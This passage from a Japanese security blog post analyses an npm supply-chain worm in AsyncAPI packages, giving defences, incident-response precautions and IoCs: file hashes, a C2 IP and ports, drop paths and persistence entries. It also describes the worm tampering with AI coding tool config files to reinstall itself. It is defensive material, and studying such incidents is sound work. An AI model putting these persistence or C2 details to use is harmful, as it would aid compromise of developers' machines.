- 本機能を利用するには、**npm 11.10.0 以降**が必要です（正しいマージ済み PR は [npm/cli PR #8965](https://github.com/npm/cli/pull/8965)）。対応前の古い npm バージョンではこの機能は利用できません

```bash
# .npmrc 内での設定例 (デフォルト値は null のため、明示的設定が必要)
min-release-age=7
```

> [!WARNING]
> **重要な実装制限**: `min-release-age` は依存バージョンの**解決時**に適用されます。既存のロックファイルをそのまま使う `npm ci` は公開時刻を再評価しないため、Cooldown の恩恵を受けません（[npm/cli PR #8965](https://github.com/npm/cli/pull/8965) の maintainer 説明で、既存 lockfile エントリは bypass されるとされています。[issue #9281](https://github.com/npm/cli/issues/9281) でも利用者から同様の観測が報告されています）。
> そのため、開発環境側で `npm install` を実行して `package-lock.json` を更新・生成するフェーズで Cooldown を有効にして検疫し、ロックファイルへの悪性バージョンの混入自体を防いでおく必要があります。

### 3. Provenance Attestation の検証

ビルドされたバイナリやパッケージが、改ざんのない正規の GitHub Actions 等の CI パイプラインで生成されたことを検証します。SLSA (Supply-chain Levels for Software Artifacts) プロベナンスおよび OIDC 認証情報の検証を必須化します。

ただし、今回のケースのように CI パイプラインそのものが侵害されて公開された場合は provenance を伴います。他の防御レイヤーと組み合わせた多層防御が必要です。

### 4. セキュリティプロキシの導入 (Takumi Guard等)

パッケージレジストリとの間にセキュリティプロキシを導入し、悪意あるパッケージが発見・判定された直後に自動でブロックする構成を推奨します。例えば、GMO Flatt Security が無償提供する [Takumi Guard](https://flatt.tech/takumi/features/guard) では、今回の悪性パッケージが公開から約 2分で検知・ブロックされ、被害の発生を防ぎました。

## 対処時の注意点

### 1. VM/EDR検知への留意（解析時）

Miasma フレームワークには、VM（OUI や CPU 文字列）や EDR プロセスを検出してサイレント終了する回避機構が実装されています。ただし今回配布されたビルドでは `evasion=false` で無効化されており、本検体の動的解析では発火しません。

- **対策**: 検体解析は、インターネットから遮断した隔離環境で実施し、まず静的解析（復号後ソースの読解・文字列/定数の抽出）を優先してください。フレームワーク一般の回避機構を扱う場合も、回避コードを迂回する具体的パッチ手順を本番運用に持ち込まず、専門の解析基盤に委ねるのが安全です

### 2. AIツール汚染による「再感染無限ループ」

感染端末のファイルを削除したにもかかわらず、再び `sync.js` や systemd サービスが復活する場合があります。これは AI コーディングツールの設定汚染が原因です。

- **対策**: `.claude/setup.mjs` や `.vscode/tasks.json` に Miasma を自動ダウンロード・起動するシェルスクリプトが改ざん埋め込みされています。Git リポジトリ全体の変更履歴（`git status` および未追跡ファイル一覧）を確認し、AI コーディングツールに関連する設定ディレクトリを物理的に削除した上で、クリーンな環境から再生成します

### 3. 窃取された公開トークンによる二次侵害の確認

Miasma は奪取した npm/PyPI/cargo トークンを用いて、被害者が所有する他の公開パッケージに悪性コードを注入し publish します。

- **対策**: パッケージレジストリの監査ログ（Audit Log）および公開履歴を確認し、自身が意図して公開した覚えのないバージョン（特に 2026年7月14日以降）が存在しないか緊急調査します。発見した場合は直ちにレジストリ運営に連絡してテイクダウン申請を行います

## IoC (Indicator of Compromise) 情報

システムおよびネットワーク管理者は、以下のインジケータ（IoC）を利用して、組織内の環境に Miasma ワームが侵入していないかスキャンおよびブロックを実施してください。

### 1. ファイルハッシュ (SHA-256)

以下は GMO Flatt Security の IoC 表に基づく SHA-256 です。**対象がハッシュごとに異なる（tarball / `package/index.js` / Stage 2 ペイロード）ため、検知ルールに転記する際は対象種別を取り違えないでください。**

| 対象 | パッケージ / バージョン | SHA-256 ハッシュ値 |
|---|---|---|
| tarball | `@asyncapi/specs@6.11.2-alpha.1` | `d425e4583cc6185d41e95c45eda00550045a5d1919b9a012236a4520d009dbd7` |
| tarball | `@asyncapi/specs@6.11.2` | `9b2e65db653ca8575c9b10eefb9a80c6006404812c2ec212bf5675e3c690233b` |
| `package/index.js` (悪性版・両バージョン共通) | specs 系 | `8351d251cf0b5a0bd82242deaa0a14e3e1394418d55c0f4259dac4303b79fc0c` |
| Stage 2 ペイロード (暗号化状態・IPFS取得) | - | `e9544a648d8fbaccd01b8477cf68471d48b89bf93eeacbdf5bba20fd296ff7b5` |
| Stage 2 ペイロード (復号後) | - | `f873941d1907a97dc6c718fdecf59fd7d91f3f8212da2f7e5314b878b88bdc0b` |

### 2. ネットワーク接続先 (C2 / P2P / 配信元)

| インジケータ | 用途 / 詳細 |
|---|---|
| `85.137.53.71:8080` | Miasma C2 ビーコン送信および指令受信 (POST /api/v1/beacon) |
| `85.137.53.71:8081` | データアップロード用 (Aikido 解析。GMO Flatt 記事は 8080 のみ掲載) |
| `85.137.53.71:8091` | プロキシ管理用 (Aikido 解析) |
| `209.94.90.1` | `ipfs.io` の共有ゲートウェイ IP。第2段ペイロード配信元。**低特異度 IoC**（正規用途と共有のため単独ブロックは過剰。CID・プロセス・時刻と相関させて検知） |
| `router.bittorrent.com` | BitTorrent DHT ネットワーク (P2P ピア探索。指令中継ではない) |
| `dht.transmissionbt.com` | BitTorrent DHT ネットワーク (P2P ピア探索。指令中継ではない) |
| ポート `4100` | LAN内ピア探索およびメッシュネットワーク同期用ポート (TCP) |

### 3. 特徴的なファイルパス・レジストリキー

#### A. ドロップファイル・ディレクトリ

- Linux: `~/.local/share/NodeJS/sync.js`
- macOS: `~/Library/Application Support/NodeJS/sync.js`
- Windows: `%LOCALAPPDATA%\NodeJS\sync.js`
- 共通管理フォルダ: `~/.config/.miasma/` (状態管理および `run/node.lock` など)
- 鍵ペアファイル: `~/node-key.json`

#### B. 永続化サービス (Linux)

- systemd 構成ファイル: `~/.config/systemd/user/miasma-monitor.service`

#### C. レジストリキー (Windows)

- 起動設定: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` 内の `miasma-monitor` キー

## まとめ

本記事では、2026年7月14日に発生した AsyncAPI サプライチェーン攻撃「Miasma ワーム」について、攻撃の起点となった `pull_request_target` の悪用から、ランタイム発火・多層暗号化ペイロード・遠隔シェルまでを C4 モデルとデータモデルで構造化しました。認証情報収集・自己拡散・AIツール汚染・回避機構は**実装されているが本検体では無効化**されており、実際に有効だったのは永続化・C2 ビーコン・遠隔シェルです。ただし遠隔シェルを起点に同等の操作は後から実行可能です。`--ignore-scripts` だけでは防げないランタイム発火型の脅威に対し、Dependency Cooldown やセキュリティプロキシによる多層防御と、感染時の隔離・証拠保全・資格情報ローテーションが要点になります。

この記事が少しでも参考になった、あるいは改善点などがあれば、ぜひリアクションやコメント、SNSでのシェアをいただけると励みになります！

## 参考リンク

- 一次情報・インシデント分析
  - [GMO Flatt Security Blog - AsyncAPI ソフトウェアサプライチェーン攻撃の概要と対応指針](https://blog.flatt.tech/entry/asyncapi_compromise)
  - [Aikido Security - AsyncAPI npm packages backdoored via GitHub Actions](https://www.aikido.dev/blog/asyncapi-npm-packages-backdoored-via-github-actions)
- 関連するキャンペーン・系譜調査
  - [GMO Flatt Security Blog - Mini Shai-Hulud 第二波の概要と対応指針](https://blog.flatt.tech/entry/mini_shai_hulud_2nd)
- 公式ドキュメント・GitHub
  - [npm CLI - min-release-age / package cooldown 設定 (PR #8965)](https://github.com/npm/cli/pull/8965)
  - [npm CLI Configuration reference - min-release-age](https://docs.npmjs.com/cli/v11/using-npm/config#min-release-age)
  - [npm/cli issue - min-release-age support for npm ci (#9281)](https://github.com/npm/cli/issues/9281)
- セキュリティ対策・ブロックサービス
  - [GMO Flatt Security - Takumi Guard セキュアパッケージレジストリプロキシ](https://flatt.tech/takumi/features/guard)
